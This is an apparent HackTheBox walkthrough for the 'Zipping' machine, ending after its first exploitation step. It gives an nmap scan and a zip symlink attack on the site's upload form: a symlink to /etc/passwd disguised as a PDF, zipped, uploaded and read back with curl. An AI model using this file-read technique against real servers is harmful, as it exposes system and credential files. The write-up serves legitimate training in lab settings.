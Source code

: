 # Tables Of Contents
- >[Enumeration](#item-one)
- >[Local File Inclusion](#item-two)
- >[SQL Injection Automation](#item-three)
- >[SQL Injection Manual](#item-four)
- >[Privilege Escalation](#item-five)
  
![](../../../../images/2024-01-19-13-06-34.png)

This machine the difficulty is medium by hackthebox.The creator for this box machine is [xdann1](https://app.hackthebox.com/users/535069) . So now i would give your walkthrough for this machine.I hope you enjoy : )

# Enumeration
<a id="item-one"></a>


First of all check the open port using nmap 


`nmap -sC -sV -p- -T4 --min-rate=9326 --vv zipping.htb`



 ![](../../../../images/2024-01-19-13-13-38.png)




Only port 80 and 22 only open so nothing important here

 


 
 ![](../../../../images/2024-01-19-13-15-59.png)
 







 Lets check the website . Now look at this i tried upload shell from here using null byte but it is nothing because the creator was patched for null bytes . So lets try using [ZIP Symlink Vulnerability](https://effortlesssecurity.in/zip-symlink-vulnerability/) you can see here to exploit `ZIP SYMLINK`.The exploit work for read file and folder like lfi but using PDF file so to create malicious pdf using `ln` command

 `ln -s /etc/passwd etc.pdf` after that zip this file using zip
 `zip -r etc.zip etc.pdf` and upload the zip file at zipping upload .

 After you uploaded the zip file there would give link file pdf like this `http://zipping.htb/uploads/2734449af42ebfe74df5f6865e2529cd/etc.pdf`

 so now to read /etc/passwd using curl command

 `curl http://zipping.htb/uploads/2734449af42ebfe74df5f6865e2529cd/etc.pdf`
 